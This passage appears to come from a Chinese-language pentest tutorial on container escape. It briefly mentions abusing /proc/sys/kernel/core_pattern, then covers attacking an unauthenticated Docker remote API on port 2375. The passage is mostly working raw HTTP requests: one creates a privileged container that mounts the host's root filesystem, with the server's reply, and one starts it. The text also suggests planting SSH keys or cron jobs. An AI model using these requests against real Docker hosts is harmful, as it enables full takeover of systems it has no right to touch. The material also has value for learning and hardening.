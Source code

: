 3./proc/sys/kernel/core\_pattern 写入恶意文件

4.执行 c 代码，使进程崩溃

#### docker remote api

某些 ctf 平台就会使用这种方式来动态创建靶机，但如果 remote api 设置如下

```plain
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375
```

开放在公网上就有被攻击的风险

有的时候也会发现是 2376 端口 区别是 2375 未加密 2376 是加密

攻击手法 一般可以写密钥和定时任务，一般情况下考虑定时任务，密钥有失败的可能 如未开启之类的

利用/containers/create 创建容器，把宿主机的”/”目录挂载到容器的”/mnt”目录下

```plain
POST /containers/create HTTP/1.1
Host:  *:2375
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 130

{"HostName":"remoteCreate","User":"root","Image":"nginx/ntpd:4.2.6p5","HostConfig":{"Binds":["/:/mnt"],
"Privileged":true}}


//容器创建成功，并返回容器 id
HTTP/1.1 201 Created
Api-Version: 1.38
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/18.06.1-ce (linux)
Date: Mon, 18 Apr 2022 09:00:07 GMT
Content-Length: 90
Connection: close

{"Id":"容器 id","Warnings":null}
```

```plain
启动容器

POST /containers/容器id/start HTTP/1.1
Host:  *:2375
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

```